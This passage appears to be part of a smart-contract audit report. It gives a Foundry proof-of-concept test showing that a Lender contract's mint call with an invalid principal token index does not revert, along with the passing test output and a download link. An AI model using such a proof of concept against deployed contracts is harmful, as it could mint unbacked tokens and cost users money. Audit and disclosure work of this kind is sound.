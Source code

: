 then we add the test file:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Lender.sol";

contract CounterTest is Test {

    Lender public lender;

    function setUp() public {
        lender = new Lender();
    }

    function testDoesNotRevertOnInvalidTransfer_POC() public {
    
         // invalid principle token index
        uint8 p = 10;

        // random address
        address u = address(this);

         // random maturity
        uint256 m = 1000;

         // large amount of token to be minted
        uint256 a = 100000 ether;

        // magic happens....
        lender.mint(p, u, m, a);
    }

}
```

Then we run the test:

```solidity
forge test
```

the result is

```solidity
Running 1 test for test/POC.t.sol:LenderTest
[PASS] testDoesNotRevertOnInvalidTransfer_POC() (gas: 8631)
```

Please free feel to download this folder and compile and run it locally.

https://drive.google.com/file/d/1-s4C7sjPa7D21wKm3W6Oyep2hYjlzY9U/view?usp=sharing

## Impact
